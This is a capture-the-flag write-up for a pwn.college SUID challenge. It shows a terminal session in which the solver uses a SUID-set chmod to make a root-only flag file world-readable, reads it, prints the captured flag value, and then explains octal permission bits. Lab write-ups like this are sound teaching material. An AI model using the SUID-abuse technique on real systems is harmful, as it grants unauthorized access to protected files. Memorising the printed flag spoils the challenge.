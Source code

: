 `chmod` (change mode) is a command-line utility used in Unix-like OS to change the access permission of files and directories.

As the `SUID` bit has been set for the `chmod` , now we can change the access permission for the `flag` file.

```bash
hacker@program-misuse-level-38:~$ /challenge/babysuid_level38 
Welcome to /challenge/babysuid_level38!

This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.

I just set the SUID bit on /usr/bin/chmod.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level38) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/chmod!
hacker@program-misuse-level-38:~$ ls -l /flag
-r-------- 1 root root 57 Jan  3 08:33 /flag
hacker@program-misuse-level-38:~$ chmod 777 /flag
hacker@program-misuse-level-38:~$ ls -l /flag
-rwxrwxrwx 1 root root 57 Jan  3 08:33 /flag
hacker@program-misuse-level-38:~$ cat /flag
pwn.college{ULVlzQrOAIjpRG3QT4urBU9CC-c.0FM4EDL0AjNzQzW}
```

We change the mode to `777` for the `flag` file. Here each `7` is for `file owner`, `group` and `other than the owner and the group `. The binary representation for `7` is `111` . Each bit represents `read`, `write`, `execute` and `1` means `{action} is permissible` . Here `action means {read, write, execute}` . That means `file owner`, `group`, `other than the owner and the group` have access to `read, write, execute`.

Let's take another example,  `755` means `file owner` has the permission to `read, write, execute`. `Group` has only access to `read` and `execute` as binary representation for `5` is `101`.
Same goes for `other than the owner and the group`.

Now we have the access to read the `flag` file. 